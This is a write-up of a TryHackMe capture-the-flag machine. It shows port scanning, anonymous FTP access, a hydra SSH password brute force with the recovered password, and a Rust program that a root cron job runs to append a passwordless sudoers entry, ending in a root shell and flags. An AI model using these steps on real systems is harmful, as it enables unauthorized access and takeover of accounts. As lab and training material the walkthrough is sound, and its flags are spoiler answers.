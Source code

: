 ```yaml
---
description: https://tryhackme.com/room/yctfweek2Mv
---
```


# VM - boot2root

i had first blood for this machine ([🩸](https://emojipedia.org/drop-of-blood))

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

## Port scan

* i used rustscan to see what ports are open (21 and 22)
* nmap scan results :

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.102.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:fa:d2:43:4e:e7:6c:1f:49:19:f3:3f:ae:8c:e2:00 (RSA)
|   256 48:57:12:7e:c2:10:4d:0d:1f:1a:d6:65:f5:4e:a6:7f (ECDSA)
|_  256 93:b2:43:81:5f:0c:73:af:84:b1:45:ba:21:ac:c2:54 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

* only 2 ports were open,

## FTP&#x20;

* anonymous login was allowed

```bash
└─➜ ftp 10.10.103.104                                                                                                                                                                    [1]
Connected to 10.10.103.104.
220 (vsFTPd 3.0.5)
Name (10.10.103.104:kyubi): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              69 Dec 04 23:26 welcome.txt
226 Directory send OK.

ftp> get welcome.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.txt (69 bytes).
226 Transfer complete.
69 bytes received in 0.0013 seconds (52 kbytes/s)

ftp> bye
221 Goodbye.
```

### Contents of welcome.txt

```bash
Hello I am melodi and welcome to my simple FTP server.

Thank You :)
```

* Username : melodi

## SSH&#x20;

* since no http port was open, my next thought was to **bruteforce** the password

### hydra bruteforce

```bash
└─➜ hydra -l melodi -P /usr/share/wordlists/rockyou.txt 10.10.103.104 ssh -t 4                                                                                                           [0]
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-10 12:37:16
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.103.104:22/
[STATUS] 81.00 tries/min, 81 tries in 00:01h, 14344317 to do in 2951:31h, 4 active
[22][ssh] host: 10.10.103.104   login: melodi   password: princess1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-10 12:38:56

```

### Password found : princess1



## User flag

```bash
└─➜ ssh melodi@10.10.103.104                                                                                                                                                           [130]
The authenticity of host '10.10.103.104 (10.10.103.104)' can't be established.
ED25519 key fingerprint is SHA256:G7f5Il1Yitj0F1y5OmeYSgwUVJbsq01WBas04KF+LPo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:36: 10.10.224.19
    ~/.ssh/known_hosts:38: 10.10.211.116
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.103.104' (ED25519) to the list of known hosts.
melodi@10.10.103.104's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Dec  7 18:33:34 2023
melodi@ubuntu:~$ ls
fl4g.txt
melodi@ubuntu:~$ cat fl4g.txt
YCTF{15_1t_e45y??}

```

### Flag : YCTF{15\_1t\_e45y??}



## Root flag

* I used **pspy64** script to see what all proccess were running on the machine

```bash
2023/12/09 19:35:01 CMD: UID=0     PID=14136  | /root/.cargo/bin/rustc /tmp/hello.rs
2023/12/09 19:35:01 CMD: UID=0     PID=14135  | /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14134  | /bin/sh -c /bin/bash /root/script.sh
2023/12/09 19:35:01 CMD: UID=0     PID=14133  | /usr/sbin/CRON -f
```

* every minute root compiles the script under `/tmp/hello.rs` and (runs it?)
* Let's add ourself in sudoers list (NOTE: this isn't the way i solved this machine)
* before :&#x20;

```bash
melodi@ubuntu:/tmp$ sudo -l
[sudo] password for melodi:
Sorry, user melodi may not run sudo on ubuntu.
```

* script :&#x20;

```rust
use std::fs::OpenOptions;
use std::io::{self, Write};
use std::path::Path;

fn main() {
    let username = "melodi";

    // Path to the sudoers file
    let sudoers_path = "/etc/sudoers";

    // Check if the file exists
    if !Path::new(sudoers_path).exists() {
        eprintln!("Error: sudoers file not found at {}", sudoers_path);
        return;
    }

    // Open the sudoers file for appending
    let mut file = match OpenOptions::new().append(true).open(sudoers_path) {
        Ok(file) => file,
        Err(err) => {
            eprintln!("Error opening sudoers file: {}", err);
            return;
        }
    };

    // Prepare the line to be added to the sudoers file
    let sudoers_line = format!("{}   ALL=(ALL:ALL) NOPASSWD: ALL\n", username);

    // Write the line to the sudoers file
    match file.write_all(sudoers_line.as_bytes()) {
        Ok(_) => println!("Passwordless sudo access added for user: {}", username),
        Err(err) => eprintln!("Error writing to sudoers file: {}", err),
    }
}
```

* After a minute our script will be run by the root user

```bash
melodi@ubuntu:/tmp$ sudo -l
Matching Defaults entries for melodi on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User melodi may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

* woo hooooo, we can run sudo now, without any password

```bash
melodi@ubuntu:/tmp$ sudo /bin/bash
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cd /root
root@ubuntu:~# ls
r00t.txt  script.sh
root@ubuntu:~# cat r00t.txt
YCTF{1t5_v3ry_ru5ty_h3r3!!}
```

* btw i used another script during CTF, a script that had rev shell payload for my local machine, i listen on my local machine with netcat and got root shell.

### Flag: YCTF{1t5\_v3ry\_ru5ty\_h3r3!!}

## Pwned

\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
